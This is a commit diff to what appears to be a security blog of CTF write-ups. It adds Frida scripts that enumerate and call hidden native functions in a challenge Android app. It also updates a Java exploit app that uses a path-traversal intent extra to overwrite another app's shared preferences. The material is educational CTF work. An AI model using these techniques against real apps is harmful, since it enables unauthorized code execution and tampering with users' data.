

finish blog

diff --git a/layouts/_default/index.html b/layouts/_default/index.html
@@ -49,7 +49,7 @@
       </div>
       {{- end }}
       <br>
-      <div style="margin-bottom: 20px;">Android Hacking | Binary Exploitation Adventures | CTF Player @p3rf3ctr00t
+      <div style="margin-bottom: 20px;">Android Security Researcher | Binary Exploitation | CTF Player @p3rf3ctr00t
       </div>
       <!-- <div style="margin-top: 20px;">
         <a href="/certifications/" style="margin-right: 15px; font-size: 1.5em;">Certifications</a>

diff --git a/content/posts/perfectroot_ctf_2024/index.md b/content/posts/perfectroot_ctf_2024/index.md
@@ -333,6 +333,28 @@ approach this; but the easy and quick way is to use frida. The other approach ca
 
 ![img-description](3_3.png)
 
+We can also use a frida api `Module.enumerateExports()` to search for user defined functions in the binary. 
+
+```bash
+frida -U -n 'Hello Android'
+...                                                     
+[Pixel 7::Hello Android ]-> Module.enumerateExports("libhelloandroid.so").forEach(function(exp) {
+    if (exp.type === 'function' && exp.name.startsWith('Java_')) {
+        console.log("User-defined Function: " + exp.name + " Address: " + exp.address);
+    }
+});
+User-defined Function: Java_com_example_helloandroid_MainActivity_stringFromJNI Address: 0x73193048e6c0
+User-defined Function: Java_com_example_helloandroid_MainActivity_neverCalled Address: 0x73193048e770
+```
+
+```js
+Module.enumerateExports("libhelloandroid.so").forEach(function(exp) {
+    if (exp.type === 'function' && exp.name.startsWith('Java_')) {
+        console.log("User-defined Function: " + exp.name + " Address: " + exp.address);
+    }
+});
+```
+
 we create a frida script to trigger the method.
 
 ```js
@@ -349,20 +371,25 @@ console.log("Env address", env.handle)
 neverCalled(env.handle, ptr(0)); // calling the function with the parameters
 ```
 
-Running the exploit.
+We run our exploit and Reload it to get the addresses once loaded into memory.
 
 ```bash
 frida -U -l frida.js -f com.example.helloandroid
+...
+Spawning `com.example.helloandroid`...                                  
+Function address: null
+Spawned `com.example.helloandroid`. Resuming main thread!               
+Error: expected a pointer
+    at <eval> (/Downloads/frida.js:14)
+[Pixel 7::com.example.helloandroid ]-> %reload
+Function address: 0x73192bcfa770
+Env address: 0x731a57246050
+[Pixel 7::com.example.helloandroid ]->
 ```
-
-Reload it to get the addresses once loaded into memory.
-
-![img-description](3_4.png)
 
 Check for the logs to retrieve the flag.
 
 ![img-description](3_5.png)
-
 
 ## Spider View
 
@@ -644,6 +671,7 @@ import java.io.OutputStream;
 import java.io.OutputStreamWriter;
 
 public class MainActivity extends AppCompatActivity {
+    TextView textView;
     @Override
     protected void onCreate(Bundle savedInstanceState) {
         super.onCreate(savedInstanceState);
@@ -655,9 +683,10 @@ public class MainActivity extends AppCompatActivity {
             return insets;
         });
         Button button = findViewById(R.id.button);
+        textView = findViewById(R.id.textView);
         button.setOnClickListener(v -> {
             Intent intent = new Intent();
-            // putextra the file name we want to be granted the permissions to read and write
+            // path traversal allows us to putextra the file name we want to be granted the permissions to read and write
             intent.putExtra("filename", "../shared_prefs/treasure_preference.xml");
             // set the classname to trigger
             intent.setClassName("com.example.unchartedpath", "com.example.unchartedpath.UnchartedPathActivity");
@@ -681,6 +710,7 @@ public class MainActivity extends AppCompatActivity {
             if (outputStream != null) {
                 outputStream.write(xmlContent.getBytes());
                 outputStream.close();
+                textView.setText("Successfully wrote to file: " + uri);
                 Log.d("Exploit", "Successfully wrote to file: " + uri);
             }
         } catch (IOException e) {

diff --git a/content/posts/bsides-nairobi-2023-cyber-challenge/index.md b/content/posts/bsides-nairobi-2023-cyber-challenge/index.md
@@ -189,7 +189,7 @@ We open the app and click the button. Finally we get the flag
 ![img-description](13.png)
 
 #### Second method
-We can use frida script to change the true variable to false using a custom script Thanks to madbit for the script 
+We can use frida script to change the true variable to false using a custom script
 ```javascript
 Java.perform(function () {
     var MainActivity = Java.use('com.bsidesnrb.watchdog.MainActivity');

diff --git a/content/posts/android-challenge-post-board/index.md b/content/posts/android-challenge-post-board/index.md
@@ -230,4 +230,4 @@ There we go an XSS to RCE Exploitation.
 
 > We can also create a malicious mobile app and send the same intent to the `MainActivity` of the vulnerable app. The malicious app needs to be uploaded in the same device for it to work.
 
-![img-description](4.png)
+<!-- ![img-description](4.png) -->

diff --git a/content/posts/university-ctf-2023-brains-and-bytes/index.md b/content/posts/university-ctf-2023-brains-and-bytes/index.md
@@ -108,4 +108,4 @@ These zombies really used their BRAINS to BYTE the system.
 
 ![yay](joke.gif)
 
-![img-description](/img/cert/HTB2023.png)
+<!-- ![img-description](/img/cert/HTB2023.png) -->

diff --git a/content/posts/analytics/index.md b/content/posts/analytics/index.md
@@ -198,4 +198,4 @@ metalytics@analytics:~$ ./exploit
 bash-5.1#
 ```
 
-![img-description](3.png)
+<!-- ![img-description](3.png) -->

diff --git a/content/posts/codify/index.md b/content/posts/codify/index.md
@@ -216,4 +216,4 @@ Password:
 root@codify:/tmp#
 ```
 
-![img-description](3.png)
+<!-- ![img-description](3.png) -->
